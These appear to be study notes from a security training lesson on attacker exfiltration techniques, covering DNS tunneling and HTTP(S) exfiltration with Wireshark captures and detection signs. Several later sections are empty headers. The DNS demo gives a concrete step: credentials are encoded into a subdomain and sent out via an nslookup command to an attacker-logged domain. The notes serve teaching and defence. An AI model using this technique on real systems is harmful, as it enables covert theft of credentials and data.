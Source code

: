 # 49. Explain Exfiltration Techniques

Trainer: Knox Hutchinson


## Introducing Attacker Exfiltration Techniques

- Learning goals
  - DNS tunneling exfiltration
  - HTTP exfiltration
  - file transfer
  - text-based protocols


## DNS Tunneling Exfiltration

- DNS exflitration overview
  - capturing with  Wireshark
  - pkt: src=10.10.21.16, dst=10.10.21.1, prot=DNS, info=Standard query 0xe4d1 A address
  - pkt: src=10.10.21.1, dst=10.10.21.16, prot=DNS, info=Standard query response 0xe4d1
    - L7: Domain Name System (response)
      - Queries: adservice.google.com: TYpe A, Class IN; Name = adservice.google.com
      - Answers
        - advervice.google.com: Type CNAME, class IN, cname pagedad46.l.doubleclick.net
        - pagead46.l.doubleclick.net: type A, class IN, addr 64.233.185.154
        - pagead46.l.doubleclick.net: type A, class IN, addr 64.233.185.155
        - ...
  - attacker
    - MitM attacks
    - malware in client to inset and send sensitive info
  - possible info exflitrated: username, password, file-shared locations, GPOs


- Demo: data exflitated by DNS queries
  - browsing https://www.base64encode.org: encode 'username=knox:password=cisco -> encode -> hex string abc
  - cmd: `nslookup abc.knoxsdata.com`
  - DNS query logged by attacker
  - decode the hex string abc back to username and password



## HTTP(S) Exfiltration

- HTTP(S) exfiltration overview
  - client able to access SQL DB
  - extract sensitive info from SQL DB, e.g., SELECT queries
  - convert the sensitive info into plan text, e.g., JSON, XML, etc.
  - using HTTP POST request to post the sensitive info to malicious web site
  - sign of data exfiltration: high volume of I/O, CPU utilization, or outbound data transmission


- Demo: HTTPS exfiltration
  - sensitive info embedded in encrypted payload
  - pkt: src=108.177.122.94, dst=10.10.21.16, prot=TLSv1.3, info=Application Data
    - L7: Transport Layer Security - TLSv1.3 Record Layer: Application Data PProtocol: http-over-tls
  - sign of exflitration: high volume of traffic w/ same src and dst



## Outbound File Transfers




## Text-Based Protocols




## Recapping Exfiltration Techniques




